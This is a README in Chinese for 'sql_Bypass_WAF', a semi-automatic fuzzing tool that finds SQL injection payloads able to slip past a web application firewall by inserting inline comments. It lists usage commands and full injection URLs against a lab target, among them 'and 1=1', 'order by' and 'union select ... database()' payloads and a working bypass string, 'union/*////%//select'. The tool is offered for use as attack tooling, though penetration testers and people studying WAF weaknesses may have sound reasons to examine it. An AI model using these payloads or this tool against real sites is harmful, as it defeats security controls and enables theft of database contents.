

# sql_Bypass_WAF
sql注入bypass waf工具，绕waf fuzz测试工具。

## 简介

sql_Bypass_WAF是一款sql注入绕waf工具，通过fuzz的方式，进行大量测试找到bypass语句。


## 整体流程

1. 半自动，需要人工判断拦截关键字并指定关键字进行fuzz测试。
2. 首先先访问一下waf拦截页面，获取拦截页面特征，如响应码、响应内容长度、body中关键字。
3. 进行fuzz测试，如果响应与之前的拦截响应有多处不同，证明成功绕过。


## Bypass方法

已实现Bypass方法：
内联注释

后续会更新更多的Bypass方法。


## 使用方法

1. -h查看参数帮助


2. 先判断出waf拦截的sql恶意语句。


3. 再将想要Bypass的语句带入到工具中，注意带入到工具中的url为waf拦截的url。

如果bypass一个参数，用"~"进行包裹，如
```
http://192.168.170.133/sqli/less-1/?id=1' and 1=1 --+
将"and"用~包裹后：
http://192.168.170.133/sqli/less-1/?id=1' ~and~ 1=1 --+
```

命令示例：
```
sql_Bypass_WAF.exe -s "http://192.168.170.133/sqli/less-1/?id=1' ~and~ 1=1 --+"
```


如果为两个参数，在两个参数中间加"^"，如
```
http://192.168.170.133/sqli/less-1/?id=1' order by 1 --+
将"order by"用^指定
http://192.168.170.133/sqli/less-1/?id=1' order^by 1 --+
```

命令示例：
```
sql_Bypass_WAF.exe -s "http://192.168.170.133/sqli/less-1/?id=1' order^by 1 --+"
```


暂不支持超过两个参数的fuzz，但可以拆分依次带入测试，如：

```
测试语句:
http://192.168.170.133/sqli/less-1/?id=-1' union select 1,database(),3 --+

先bypass"union select"
http://192.168.170.133/sqli/less-1/?id=-1' union^select 1,2,3 --+
bypass后语句：
http://192.168.170.133/sqli/less-1/?id=-1' union/*////%//select 1,2,3 --+

再bypass"database()"
http://192.168.170.133/sqli/less-1/?id=-1' union/*////%//select 1,database^(),3 --+

```





## 后续更新功能

1. post请求Bypass。
2. waf识别。
3. Bypass成功后自动生成tamper脚本。
4. 更多的Bypass方法。
